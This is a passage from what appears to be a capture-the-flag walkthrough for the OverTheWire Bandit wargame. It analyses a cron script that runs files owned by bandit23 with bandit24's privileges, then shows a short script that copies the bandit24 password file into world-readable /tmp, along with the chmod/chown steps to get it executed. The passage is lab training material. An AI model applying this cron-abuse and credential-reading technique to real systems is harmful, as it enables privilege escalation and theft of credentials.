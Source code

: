 
### Step 4: Understanding the Script Logic
**Script breakdown:**
1. **`myname=$(whoami)`** - Gets current user (bandit24 when run by cron)
2. **`cd /var/spool/$myname/foo`** - Changes to `/var/spool/bandit24/foo`
3. **For loop** - Iterates through all files in the directory
4. **Owner check** - `stat --format "%U" ./$i` gets file owner
5. **Execution condition** - Only executes files owned by bandit23
6. **Timeout execution** - `timeout -s 9 60 ./$i` runs script with 60-second limit
7. **Cleanup** - `rm -f ./$i` deletes the file after execution

**Key insight:** The script will execute any file in `/var/spool/bandit24/foo` that is owned by bandit23, and it runs with bandit24 privileges!

### Step 5: Initial Attempt and Permission Issues
I tried to create a script directly in the target directory:
```bash
cd /var/spool/bandit24/foo
nano jerome.sh
```

**Problems encountered:**
- Permission denied when trying to list directory contents
- Could create files but couldn't verify their existence
- Directory had restrictive permissions

### Step 6: Working Around Permission Restrictions
I created my script in a temporary directory first:
```bash
mkdir /tmp/jerome.dir
cd /tmp/jerome.dir
nano jerome.sh
```

**Script content:**
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password
```

**Script purpose:**
- Reads bandit24's password file (accessible when running as bandit24)
- Writes it to a world-readable location in `/tmp`

### Step 7: Preparing the Script for Execution
I set the proper permissions and ownership:
```bash
chmod +x jerome.sh
chown bandit23:bandit23 jerome.sh
```

**Critical requirements:**
- **Executable permissions** - Script must be executable
- **Correct ownership** - Must be owned by bandit23 for the cron job to execute it
